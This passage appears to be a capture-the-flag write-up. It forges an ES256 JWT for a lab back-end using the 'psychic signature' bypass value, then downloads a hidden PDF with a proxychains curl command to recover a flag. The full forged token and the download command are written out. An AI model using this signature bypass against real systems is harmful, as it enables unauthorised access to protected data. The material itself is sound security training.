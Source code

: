 - Header: `{"typ": "JWT", "alg": "ES256"}` -> `eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9`
- Payload: `{"sub": "hydra", "iss": "library-back", "groups": [""], "exp": 2000000000, "iat": 1000000000, "jti": "a-123"}` -> `eyJzdWIiOiAiaHlkcmEiLCAiaXNzIjogImxpYnJhcnktYmFjayIsICJncm91cHMiOiBbIiJdLCAiZXhwIjogMjAwMDAwMDAwMCwgImlhdCI6IDEwMDAwMDAwMDAsICJqdGkiOiAiYS0xMjMifQ`

Now, the signature part of the JWT.

First, if we try an invalid signature, it results in a `401 Unauthorized` response.

![Library Back-End Invalid Token](library_backend_invalid_token.webp){: width="1000" height="500" }

But using the `psychic signature` payload (`MAYCAQACAQA`) as the signature for our token results in a `403 Forbidden` response.

This indicates that our token works, but we are likely missing a valid claim.

After many trials and errors, we succeeded by adding `user` to the groups.

- Header: `{"typ": "JWT", "alg": "ES256"}` -> `eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9`
- Payload: `{"sub": "hydra", "iss": "library-back", "groups": ["user"], "exp": 2000000000, "iat": 1000000000, "jti": "a-123"}` -> `eyJzdWIiOiAiaHlkcmEiLCAiaXNzIjogImxpYnJhcnktYmFjayIsICJncm91cHMiOiBbInVzZXIiXSwgImV4cCI6IDIwMDAwMDAwMDAsICJpYXQiOiAxMDAwMDAwMDAwLCAianRpIjogImEtMTIzIn0`
- Signature: `MAYCAQACAQA`

Creating a token with these, we successfully authenticate and can list the documents.

![Library Back-End Valid Token](library_backend_valid_token.webp){: width="1000" height="500" }

With a valid token, listing the hidden files belonging to the user reveals `specs.pdf`.

![Library Back-End Hydras Hidden Files Two](library_backend_hydras_hidden_files2.webp){: width="1000" height="500" }

Using `curl` with `proxychains`, we can download the file as follows:

```console
$ proxychains -q curl -s 'http://library-back:8080/documents/download/specs.pdf' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiAiaHlkcmEiLCAiaXNzIjogImxpYnJhcnktYmFjayIsICJncm91cHMiOiBbInVzZXIiXSwgImV4cCI6IDIwMDAwMDAwMDAsICJpYXQiOiAxMDAwMDAwMDAwLCAianRpIjogImEtMTIzIn0.MAYCAQACAQA' -o specs.pdf
```
{: .wrap }

Opening the `PDF` does not reveal the flag, but using `pdftotext` to extract all the text from the `PDF`, we find the third flag along with a fake one.

```console
$ pdftotext specs.pdf specs.txt

$ grep 'THM' specs.txt
THM{[REDACTED]}
The flag for today is THM{This_is_not_the_real_flag_try_again}
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>
